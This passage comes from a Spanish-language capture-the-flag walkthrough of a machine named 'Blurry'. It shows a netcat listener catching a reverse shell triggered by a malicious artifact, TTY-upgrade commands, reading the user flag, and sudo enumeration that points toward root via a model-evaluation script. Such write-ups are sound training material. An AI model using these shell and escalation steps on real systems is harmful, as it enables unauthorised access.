 Nos ponemos en escucha con `netcat` para recibir la reverse shell y en paralelo ejecutamos el script.

```
nc -lnvp 1234
```

```
python exploit.py
```

Esperamos unos minutos a que el experimento `Review JSON Artifacts` vuelva a ejecutarse y llamar con `get()` a nuestro artefacto malicioso. Y nos llega una reverse shell del usuario `jippity`.

```
jippity@blurry:~$ 
```

Vamos a hacer el tratamiento de la TTY para trabajar de una manera más cómoda. Ejecutamos:

```
script /dev/null -c bash
```

Presionamos `ctrl`+`z`.

Y ejecutamos los siguientes comandos en orden.

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=`which bash`
```

Como `jippity` ya podemos ver la flag de `user.txt`

```
cd
cat user.txt
```

Vamos a intentar ver los comandos que podemos ejecutar como `root` sin proporcionar contraseña mediante `sudo`.

```
sudo -l


Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

Leyendo el script `/usr/bin/evaluate_model`, nos damos cuenta que no hace más que ejecutar el script en python `/models/evaluate_model.py` con el primer argumento el mismo que el del script. Ej:

```bash
/usr/bin/evaluate_model /models/test.pth
# Esto es lo mismo que:
/usr/bin/python3 /models/evaluate_model.py /models/test.pth
```
